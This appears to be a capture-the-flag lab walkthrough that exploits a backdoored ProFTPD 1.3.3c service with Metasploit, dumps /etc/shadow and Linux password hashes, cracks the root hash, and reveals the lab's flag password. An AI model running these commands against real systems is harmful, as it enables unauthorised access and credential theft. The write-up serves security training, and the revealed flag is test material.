





# 🔬Hashes Dumping

## Lab 1

>  🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
>  - Target IP: `192.75.64.3`
>  - **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
ip -br -c a
	192.75.64.2/24
```

```bash
nmap -sV 192.75.64.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:4B:40:03 (Unknown)
Service Info: OS: Unix
```

```bash
searchsploit ProFTPD 1.3.3
```



### Exploitation

```bash
service postgresql start && msfconsole -q
```

- Postgresql is started to store all `metasploit` loot and sensitive information from the target machine - [Metasploit - PostgreSQL Workflows](https://docs.metasploit.com/docs/pentesting/metasploit-guide-postgresql.html)

```bash
setg RHOSTS 192.75.64.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
run
```

```bash
/bin/bash -i
```



- Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions 2
```



### Hashes Dumping

```bash
cat /etc/shadow
```


> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`

- Gather Linux Password hashes with `Metasploit`

```bash
# background the session with CTRL+Z
search hashdump
use post/linux/gather/hashdump
set SESSION 2
run
```

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230323100234_default_192.75.64.3_linux.hashes_660271.txt
```

- The *unshadowed password file* is a file containing the format hashed password, ready to be cracked.

### Crack the Hash

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```




<details>
<summary>Reveal Flag - "root" password is:  🚩</summary>


`password`



</details>